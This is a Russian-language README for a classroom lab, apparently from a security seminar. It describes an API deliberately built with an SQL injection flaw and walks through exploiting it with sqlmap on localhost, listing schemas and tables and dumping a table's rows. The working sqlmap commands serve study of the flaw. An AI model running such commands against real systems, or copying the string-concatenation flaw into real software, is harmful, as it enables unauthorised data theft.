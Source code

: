 В данном примере есть api для поиска владельца по имени. Также в этом примере намеренно сделана ошибка безопасности - 
вместо эскейпинга параметра  он добавляется в запрос через конкатенацию. 

Запуск - `docker compose up`

Пример вывода строк из таблицы `storage_cell` через `sqlmap`

1. Нужно преобразовать curl запрос в формат, понятный для `sqlmap`
```shell
curl --location --request POST 'http://127.0.0.1:40230/holders/find_by_name' \
--header 'Content-Type: application/json' \
--data-raw '{
    "name": "Иван Вячеславович"
}'
```

Формат, который понимает sqlmap, следующий:
```
POST /holders/find_by_name HTTP/1.1
Host: http://127.0.0.1:40230

{"name":"*"}
```

Его нужно сохранить в файл `sqlrequest.txt`

Следующие команды нужно выполнять в папке с файлом `sqlrequest.txt`

1. Вывод информации о схемах:
```shell
sqlmap -r sqlrequest.txt -p name --dbs --batch
```
Результат:
```shell
available databases [3]:
[*] information_schema
[*] pg_catalog
[*] public
```

Обратите внимание, на подпись available **databases** - то, что в postgres называется
schema, в sqlmap и других sql базах данных называется database

2. Вывод информации о таблицах:
```shell
sqlmap -r sqlrequest.txt -p name -D public --tables --batch
```

Тут -D это название схемы (базы данных в терминологии sqlmap)

Результата:
```shell
[4 tables]
+---------------------+
| equipment           |
| equipment_to_holder |
| holder              |
| storage_cell        |
+---------------------+
```

3. Вывод информации из таблицы `storage_cell`

```shell
sqlmap -r sqlrequest.txt -p name -D public -T storage_cell --dump --batch
```

Результат:
```shell
+----+-----------+------+----------+
| id | holder_id | code | capacity |
+----+-----------+------+----------+
| 1  | 1         | YU58 | 400      |
| 2  | 2         | NT31 | 800      |
| 3  | 2         | AG22 | 1200     |
| 4  | 3         | TQ66 | 800      |
+----+-----------+------+----------+
```

Пример того, того, как делать инъекции руками, похожий на тот, что был разобран на
семинаре, есть в книге `Kali Linux: библия пентестера`, глава `SQL-инъекция`. Сайт
`mutillidae`, на котором это показывается, можно поднять через docker compose из
[этого репозитория](https://github.com/webpwnized/mutillidae-docker.git).
